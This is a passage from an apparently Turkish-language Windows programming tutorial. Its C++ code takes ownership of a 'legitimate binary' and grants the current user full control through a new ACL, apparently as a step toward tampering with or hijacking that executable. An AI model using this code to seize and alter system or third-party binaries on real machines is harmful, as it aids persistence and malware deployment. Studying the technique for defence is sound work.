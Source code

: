 ```cpp
  return 1;
}
printf("setting security descriptor owner: ok\n");

// apply the security descriptor to the file
if (!SetFileSecurityA(legitApp, OWNER_SECURITY_INFORMATION, &sd)) {
  printf("error setting file ownership: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("setting file ownership: ok\n");
```

- `InitializeSecurityDescriptor` - yeni bir güvenlik tanımlayıcısı başlatır.   
- `SetSecurityDescriptorOwner` - güvenlik tanımlayıcısındaki sahibi, geçerli kullanıcının SID'si (Güvenlik Tanımlayıcısı) olarak ayarlar.   
- `SetFileSecurityA` - sahipliği değiştirmek için güvenlik tanımlayıcısını meşru ikili dosyaya uygular.    

Daha sonra, dosyaya yeni ACL uygulanır:     

```cpp
// set full control for the current user
EXPLICIT_ACCESS ea;
PACL pNewAcl = NULL;

ZeroMemory(&ea, sizeof(EXPLICIT_ACCESS));
ea.grfAccessPermissions = GENERIC_ALL;
ea.grfAccessMode = SET_ACCESS;
ea.grfInheritance = NO_INHERITANCE;
ea.Trustee.TrusteeForm = TRUSTEE_IS_SID;
ea.Trustee.TrusteeType = TRUSTEE_IS_USER;
ea.Trustee.ptstrName = (LPSTR)pTokenUser->User.Sid;

if (SetEntriesInAcl(1, &ea, NULL, &pNewAcl) != ERROR_SUCCESS) {
  printf("error setting new ACL: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("setting new ACL: ok\n");

if (SetSecurityInfo(hFile, SE_FILE_OBJECT, DACL_SECURITY_INFORMATION, 
NULL, NULL, pNewAcl, NULL) != ERROR_SUCCESS) {
  printf("error setting security info: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  LocalFree(pNewAcl);
  return 1;
}
printf("setting security info: ok\n");

free(pTokenUser);
CloseHandle(hToken);
LocalFree(pNewAcl);
```
